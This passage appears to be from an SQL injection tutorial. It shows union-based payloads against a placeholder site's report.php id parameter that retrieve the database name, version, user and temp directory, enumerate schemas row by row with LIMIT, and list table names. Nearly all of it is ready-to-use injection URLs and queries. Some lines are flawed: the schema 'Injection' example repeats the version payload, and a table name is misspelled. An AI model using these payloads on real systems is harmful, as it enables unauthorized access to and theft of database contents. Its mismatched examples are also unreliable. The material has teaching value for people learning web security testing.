 To get the Current Database Name

```
http://fakesite.com/report.php?id=-23 union select 1,2,database(),4,5--+
```

To get the Current Version

```
http://fakesite.com/report.php?id=-23 union select 1,2,version(),4,5--+
```
To get the Current User
```
http://fakesite.com/report.php?id=-23 union select 1,2,user(),4,5--+
```

To get the Temporary Directory Path
```
http://fakesite.com/report.php?id=-23 union select 1,2,@@tmpdir,4,5--+
```
Now we will move to our next part, which is Data Extraction.

## Data Extraction using SQLi

There are many ways to extract data using SQLi so first one is union based. First i will show you the Queries and then show you how we can inject them.

```
Query : Select table\_schema from information\_schema.schemata
Injection : http://fakesite.com/report.php?id=-23 union select 1,2,version(),4,5--+
```

Will give us names of all the Databases avaiable. But as we found earlier that sometimes programmer may not be printing all the rows. He may be printing the first row from output. So in that case we can use limit keyword to enumerate the rows one by one.

First row
```
Select table\_schema from information\_schema.schemata limit 0,1--+
```
Second row
```
Select table\_schema from information\_schema.schemata limit 1,1--+
```
Third row

```
Select table\_schema from information\_schema.schemata limit 2,1--+
```
Fourth row
```
Select table\_schema from information\_schema.schemata limit 3,1--+
```
and so on.

In the above manner we can get each row one by one. Now lets see how can we extract all the table names from a database.

```
Query : Select table\_name from information\_schema.talbes where table\_schema='databasename'
Query for Current DB: Select table\_name from information\_schema.tables where table\_schema=database()
Injection : http://fakesite.com/report.php?id=-23 union select 1,2,table\_name,4,5 from information\_schema.tables where table\_schema=database()--+
```
Above injection will give you all the rows at once, but if you want one by one then you can use limit.
